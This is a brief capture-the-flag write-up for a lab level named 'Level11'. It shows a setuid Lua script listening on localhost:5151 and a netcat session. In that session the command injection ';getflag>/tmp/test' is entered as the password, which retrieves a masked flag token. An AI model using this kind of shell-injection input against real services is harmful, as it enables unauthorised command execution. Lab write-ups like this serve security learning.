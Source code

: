 # Level11
## Step by step
### 1. Access the `level11` Home Directory
  ```bash
  > ls
  -rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua
  ```
---
### 2. Understanding the `level11.lua` Program

The `level11.lua` file contains Lua code that listens on `localhost:5151`.
  ```bash
  > nc localhost 5151
  Password: ;getflag>/tmp/test
  > cat /tmp/test
  Check flag.Here is your token : XXX
  ```
